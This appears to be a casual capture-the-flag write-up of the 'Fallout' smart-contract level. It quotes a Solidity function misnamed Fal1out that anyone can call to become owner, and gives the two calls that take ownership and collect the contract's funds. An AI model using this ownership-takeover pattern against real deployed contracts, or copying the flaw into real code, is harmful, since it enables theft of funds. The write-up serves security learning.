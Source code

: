 ## Fallout

This one was a piece of cake once I got the hang of constructors; In a nutshell, the constructor can be called as many times as one may wish:

```solidity
/* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```

For some god forsaken reason, it sets the owner of the contract to the sender. why???

I don't even understand the purpose of this challenge; All I know is that 
```solidity
contract.Fal1out({from: player})
contract.collectAllocations()
```

is gucci. 
